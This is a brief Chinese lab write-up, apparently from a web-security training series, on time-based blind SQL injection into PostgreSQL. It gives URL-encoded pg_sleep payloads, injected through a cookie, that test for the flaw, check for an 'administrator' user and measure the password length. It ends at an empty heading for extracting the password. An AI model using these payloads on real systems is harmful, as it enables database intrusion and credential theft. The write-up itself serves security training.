 ## 2.15. **时间SQL盲注与信息检索**

这里需要使用延迟进行注入进行判断，由于太耗时间，就直接上语句，不在一个一个测试了。

### 2.15.1. **开启靶场**

![img](assets/%E5%9B%BE%E7%89%87%2070.png) 

### 2.15.2. **语句测试**

```
延时，%3B为分号URL编码，使得cookie查询执行后，执行SQL 

验证语句：'%3bselect+case+when+(1=1)+then+pg_sleep(10)+else+pg_sleep(0)+end--

判断是否存在administrator用户：'%3bselect+case+when+(username='administrator')+then+pg_sleep(10)+else+pg_sleep(0)+end+from+users--
```

### 2.15.3. **判断密码长度**

这里是10秒，我就测试到21位，因为肯定是20位，这里需要耐心等等，很慢的。这里有个问题就是可能会存在误差，所以还是需要注意。

```
payload：'%3bselect+case+when+(username='administrator'+and+length(password)>1)+then+pg_sleep(10)+else+pg_sleep(0)+end+from+users--
```

### 2.15.4. **判断密码**
